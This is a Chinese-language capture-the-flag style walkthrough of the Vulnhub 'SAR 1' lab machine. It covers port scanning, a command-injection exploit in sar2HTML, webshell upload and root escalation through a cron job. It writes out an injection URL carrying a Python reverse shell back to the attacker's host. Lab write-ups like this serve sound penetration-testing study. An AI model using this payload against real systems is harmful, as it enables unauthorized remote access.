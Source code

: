 ```yaml
---
layer: article
title: Vulnhub	425 SAR 1
tags: pentest vulnhub Walkthrough
---
```


考点：文件上传、命令执行、定时任务

靶机链接：<https://www.vulnhub.com/entry/sar-1,425/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SAR        | 10.0.2.12 |



## 初步打点

### 端口扫描

```bash
$ export $tip=10.0.2.12
$ sudo nmap -v -A -p- $tip
Scanning 10.0.2.12 [65535 ports]
Discovered open port 80/tcp on 10.0.2.12
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```



### WEB测试

看来要硬钢web应用了

![1](https://static.iihack.com/vulnhub/425/1.PNG)

查看phpinfo

![2](https://static.iihack.com/vulnhub/425/2.PNG)

查看robots.txt

![3](https://static.iihack.com/vulnhub/425/3.PNG)

尝试访问sar2HTML作为二级目录

![4](https://static.iihack.com/vulnhub/425/4.PNG)





### 漏洞发现

搜一下sar2ascii.tar发现

https://www.exploit-db.com/exploits/47204 

## 获得权限

### 靶机测试

#### 思路一 命令执行

按照https://www.exploit-db.com/exploits/47204 执行命令

![5](https://static.iihack.com/vulnhub/425/5.PNG)

antsword连接成功

![6](https://static.iihack.com/vulnhub/425/6.PNG)

使用python直接反弹端口失败了，可以替换`python3 python3.5 python3.6 python3.87 python3.8 python3.9`等等，例如这台靶机使用`python3`成功反弹

```http
http://10.0.2.12/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### 思路二 文件上传

另外可以点击new直接上传webshell，对应目录是`/sarDATA/uPLOAD/`

```http
http://10.0.2.12/sar2HTML/sarDATA/uPLOAD/2.php
```

antsword连接成功

## 提权

[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)跑了遍发现定时任务

![7](https://static.iihack.com/vulnhub/425/7.PNG)

### 定时任务

修改定时任务的文件，每隔五分钟执行

![8](https://static.iihack.com/vulnhub/425/8.PNG)

静静等待，获得root权限shell

![9](https://static.iihack.com/vulnhub/425/9.PNG)





